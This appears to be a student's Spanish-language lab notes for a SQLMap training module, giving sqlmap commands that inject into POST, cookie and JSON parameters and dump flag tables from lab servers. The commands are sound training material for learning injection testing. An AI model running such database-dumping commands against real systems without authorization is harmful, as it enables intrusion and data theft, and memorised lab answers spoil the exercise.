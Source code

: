 # SQLMap Essentials

{% file src="../.gitbook/assets/Sqlmap_Essentials_Module_Cheat_Sheet.pdf" %}

## Getting Started

### SQLMap Overview

#### Preguntas

**What's the fastest SQLi type?**

UNION query-based

## Building Attacks

### Running SQLMap on an HTTP Request

#### Preguntas

**What's the contents of table flag2? (Case #2)**

Vemos cómo se llaman las bases de datos.

```
sqlmap -u 'http://94.237.57.211:53268/case2.php' --data 'id=1*' --method POST -H 'Content-Type: application/x-www-form-urlencoded' --dbs
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo como se llama realizamos lo siguiente para ver lo que contiene en dicha tabla.

```
 sqlmap -u 'http://94.237.57.211:53268/case2.php' \
  --data 'id=1*' --method POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -D testdb -T flag2 --dump
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag3? (Case #3)**

```
sqlmap -u "http://94.237.57.211:53268/case3.php" --cookie 'id=1*' -T flag3 --dump
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag4? (Case #4)

```
sqlmap -u 'http://94.237.57.211:53268/case4.php' -H 'Content-Type: application/json' --data '{"id":1}' -T flag4 --dump --method POST
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Attack Tuning

#### Preguntas

**What's the contents of table flag5? (Case #5)**

```
sqlmap -u 'http://94.237.50.221:57391/case5.php?id=1' -T flag5 --no-cast --dump --batch --risk 3 --level 5
```

<figure><img src="../.gitbook/assets/image (1709).png" alt=""><figcaption></figcaption></figure>



**What's the contents of table flag6? (Case #6)**

```
sqlmap -u 'http://94.237.50.221:57391/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'
```

<figure><img src="../.gitbook/assets/image (1710).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag7? (Case #7)**

```
sqlmap -u 'http://94.237.50.221:57391/case7.php?id=1' --union-cols 5-8 --level=3 --risk=3 --dump -T flag7 --techniqu
e=U -D testdb
```

<figure><img src="../.gitbook/assets/image (1711).png" alt=""><figcaption></figcaption></figure>
